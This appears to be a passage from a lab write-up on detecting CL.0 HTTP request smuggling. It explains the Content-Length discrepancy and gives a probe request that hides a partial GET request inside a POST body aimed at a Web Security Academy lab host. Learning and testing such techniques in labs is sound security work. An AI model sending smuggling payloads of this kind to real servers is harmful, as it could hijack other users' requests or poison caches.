 If the back-end server exhibits this behavior, but the front-end still uses the Content-Length header to determine where the request ends, you can potentially exploit this discrepancy for HTTP request smuggling.

##### Probing

To probe for CL.0 vulnerabilities, first send a request containing another partial request in its body, then send a normal follow-up request. You can then check to see whether the response to the follow-up request was affected by the smuggled prefix.

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Cookie: session=YOUR-SESSION-COOKIE
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: CORRECT

GET /hopefully404 HTTP/1.1
Foo: x
```
![alt text](image-1.png)
![alt text](image-2.png)
